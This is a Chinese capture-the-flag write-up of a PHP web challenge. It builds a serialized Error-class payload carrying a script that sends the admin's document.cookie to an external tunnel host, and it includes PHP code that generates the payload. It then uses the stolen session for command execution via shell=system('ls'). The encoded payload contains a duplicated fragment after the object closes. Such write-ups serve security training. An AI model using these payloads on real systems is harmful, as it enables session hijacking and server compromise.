 **找找我的对象**

扫描出来admin.php，flag.txt

代码审计，发现只有partner2可以利用，访问admin.php，发现提示会管理员会点击链接，但是只会点击自己的网站，无法直接访问获取其session

于是想到利用ERROR原生类的反序列化，利用XSS获得后台session，构造payload
```
http://28a56eba.r10.cpolar.top/?pp=O%3A5%3A%22Error%22%3A7%3A%7Bs%3A10%3A%22%00%2A%00message%22%3Bs%3A95%3A%22%3Cscript%3Ewindow.open%28%27https%3A%2F%2F73bbb19f.r2.cpolar.cn%2Fplatform%2F%3Fcookie%3D%27%2Bdocument.cookie%29%3C%2Fscript%3E%22%3Bs%3A13%3A%22%00Error%00string%22%3Bs%3A0%3A%22%22%3Bs%3A7%3A%22%00%2A%00code%22%3Bi%3A0%3Bs%3A7%3A%22%00%2A%00file%22%3Bs%3A19%3A%22%2Fvar%2Fwww%2Fhtml%2Fb.php%22%3Bs%3A7%3A%22%00%2A%00line%22%3Bi%3A20%3Bs%3A12%3A%22%00Error%00trace%22%3Ba%3A0%3A%7B%7Ds%3A15%3A%22%00Error%00previous%22%3BN%3B%7D%22%3Bi%3A20%3Bs%3A12%3A%22%00Error%00trace%22%3Ba%3A0%3A%7B%7Ds%3A15%3A%22%00Error%00previous%22%3BN%3B%7D

<?php
$a=new Error("<script>window.open('自己的XSS接受平台?cookie='+document.cookie)</script>");
echo urlencode(serialize($a));
?>
```

将payload输入admin.php即可，就会接受到管理员的session

因为partner2提示：如果是admin，就会执行check()函数，构造payload，反序列化partner2，注意不能绕过__wakeup（绕过的话，将无法执行__tostrhing方法）
POST: shell=system('ls'); SESSIONID=xxx

访问根用户目录下的flag.txt即可获得flag